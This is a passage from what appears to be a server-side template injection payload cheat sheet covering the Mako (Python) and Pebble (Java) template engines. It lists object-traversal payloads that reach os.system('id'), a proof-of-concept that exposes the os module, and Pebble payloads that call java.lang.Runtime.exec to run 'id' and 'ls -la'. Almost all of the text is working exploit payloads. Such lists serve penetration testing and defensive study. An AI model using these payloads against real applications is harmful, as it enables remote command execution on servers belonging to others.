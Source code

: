 ```python
${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.cache.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
${self.context._with_template.module.filters.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
```

PoC :

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```

Source [@podalirius_](https://twitter.com/podalirius_) : [https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)


---

## Pebble

[Official website](https://pebbletemplates.io/)
> Pebble is a Java templating engine inspired by [Twig](./#twig) and similar to the Python [Jinja](./#jinja2) Template Engine syntax. It features templates inheritance and easy-to-read syntax, ships with built-in autoescaping for security, and includes integrated support for internationalization.

### Pebble - Basic injection

```java
{{ someString.toUPPERCASE() }}
```

### Pebble - Code execution

Old version of Pebble ( < version 3.0.9): `{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}`.

New version of Pebble :

```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

---